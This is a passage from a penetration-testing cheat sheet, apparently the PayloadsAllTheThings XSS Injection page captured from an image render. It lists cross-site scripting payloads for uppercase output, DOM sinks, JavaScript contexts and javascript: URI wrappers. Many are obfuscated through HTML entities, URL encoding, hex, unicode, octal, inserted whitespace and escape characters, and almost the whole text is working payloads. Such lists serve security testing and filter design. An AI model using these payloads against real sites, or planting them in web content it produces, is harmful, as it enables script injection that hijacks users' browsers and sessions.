 ### XSS in Uppercase Output

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-uppercase-output)

```js
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```

### DOM Based XSS

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#dom-based-xss)

Based on a DOM XSS sink.

```js
#"><img src=/ onerror=alert(2)>
```

### XSS in JS Context

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-js-context)

```js
-(confirm)(document.domain)//
; alert(1);//
// (payload without quote/double quote from [@brutelogic](https://twitter.com/brutelogic)
```

## XSS in Wrappers for URI

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-wrappers-for-uri)

### Wrapper javascript

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#wrapper-javascript)

```js
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javascript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```
